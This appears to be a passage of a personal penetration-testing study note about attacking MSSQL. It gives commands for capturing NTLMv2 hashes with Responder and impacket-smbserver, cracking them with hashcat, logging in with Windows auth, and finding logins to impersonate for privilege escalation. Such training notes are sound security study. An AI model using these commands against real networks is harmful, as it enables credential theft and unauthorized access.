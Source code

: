 #### <mark class="hltr-grey">Launching a Responder server</mark>

```shell-session
sudo responder -I tun0
```

#### <mark class="hltr-grey">Launching a server with impacket-smbserver</mark>

```shell-session
sudo impacket-smbserver share ./ -smb2support
```

#### <mark class="hltr-grey">Cracking the NTLMv2 password</mark>

Copy the NTLMv2 hash to a hashes.txt file and crack it using hashcat:

```
hashcat -m 5600 hash.txt /usr/share/wordlist/rockyou.txt
```

[Follow This Guide](https://zone13.io/cracking-ntlmv2-responses-captured-using-responder/)

❗: You can then authenticate to the sql server using windows-auth:
```
mssqlclient.py -p 1433 -windows-auth mssqlsvc@10.129.193.95
```

### <mark class="hltr-orange">Impersonate Existing Users with MSSQL</mark>

SQL Server has a special permission, named `IMPERSONATE`, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends. Let's explore how the `IMPERSONATE` privilege can lead to privilege escalation in SQL Server.

First, we need to identify users that we can impersonate. <mark class="hltr-red">Sysadmins can impersonate anyone by default</mark>, But for non-administrator users, privileges must be explicitly assigned. We can use the following query to identify users we can impersonate:

#### <mark class="hltr-grey">Identify Users that We Can Impersonate</mark>

```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

![[Pasted image 20240927181402.png]]

#### <mark class="hltr-grey">Verifying our Current User and Role</mark>
